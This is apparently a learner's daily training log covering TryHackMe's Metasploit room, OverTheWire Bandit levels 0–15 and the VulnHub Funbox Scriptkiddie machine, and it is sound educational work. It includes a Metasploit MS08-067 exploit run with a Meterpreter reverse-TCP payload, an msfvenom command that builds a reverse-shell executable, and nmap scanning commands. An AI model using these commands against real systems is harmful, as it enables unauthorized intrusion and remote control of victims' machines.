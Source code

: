 🚀 Day 16: Metasploit | Bandit (0–15) | VulnHub Scriptkiddie
📌 Overview

Day 16 was a packed day of learning and practice across three platforms:

TryHackMe Metasploit Room — Focused on scanning, exploitation, Metasploit database, msfvenom payloads.

OverTheWire Bandit (levels 0 → 15) — Strengthened Linux fundamentals through practical challenges.

VulnHub: Funbox Scriptkiddie — Beginner-friendly CTF-style machine, performed initial recon and setup.

🔹 TryHackMe — Metasploit Room
Key Topics

Scanning targets with Metasploit

Using the Metasploit database (msfdb)

Conducting vulnerability scans

Exploiting vulnerable services

Generating payloads with msfvenom

Obtaining a Meterpreter session

Important Commands
# Start and initialize the Metasploit database
msfdb init

# Launch Metasploit
msfconsole

# Database-related commands
db_status
workspace -a tryhackme_lab
hosts
services

# Scan target host
use auxiliary/scanner/portscan/tcp
set RHOSTS <target_ip>
set PORTS 1-1000
run

# Example exploit usage
search ms08_067
use exploit/windows/smb/ms08_067_netapi
set RHOSTS <target_ip>
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <your_ip>
run

# Generate payload with msfvenom
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<your_ip> LPORT=4444 -f exe > shell.exe

🔹 OverTheWire — Bandit (Level 0 → 15)
Focus Areas

SSH basics

File permissions

Hidden files & directories

Encodings (base64, hex, gzip, bzip2)

Cron jobs

Password retrieval logic

Important Commands
# SSH into Bandit
ssh bandit0@bandit.labs.overthewire.org -p 2220

# Find hidden files
ls -la

# View file contents
cat <filename>

# Read the first line
head -n 1 <filename>

# Read the last line
tail -n 1 <filename>

# Base64 decode
cat data.txt | base64 -d

# Hex dump & reverse
xxd -r file.hex > file.out

# Search by permissions
find / -user bandit7 -group bandit6 -size 33c 2>/dev/null

# Connect via nc
nc <host> <port>

🔹 VulnHub — Funbox: Scriptkiddie
Setup

Downloaded & imported Funbox11.ova

Added entry to /etc/hosts:

funbox11  <target_ip>


Works better with VirtualBox

Initial Recon
# Host discovery
nmap -sn <target_network>/24

# Full port scan
nmap -p- -T4 <target_ip>

# Service and version detection
nmap -sV -sC -p <ports> <target_ip>

# Add entry for convenience
echo "<target_ip> funbox11" | sudo tee -a /etc/hosts

🔑 Key Takeaways

Metasploit is more than just an exploitation tool — its database & msfvenom features make it a full pentest framework.

Bandit reinforces Linux fundamentals that are critical in real-world scenarios.

VulnHub challenges simulate attacker workflows and build applied experience.

🛡️ High-Level Mitigations

Keep systems patched (avoid unpatched services like MS08-067 / MS17-010).

Restrict unnecessary services and enforce least privilege.

Secure SSH: disable root login, prefer key-based authentication.

Apply defense-in-depth to minimize exposed attack surfaces.

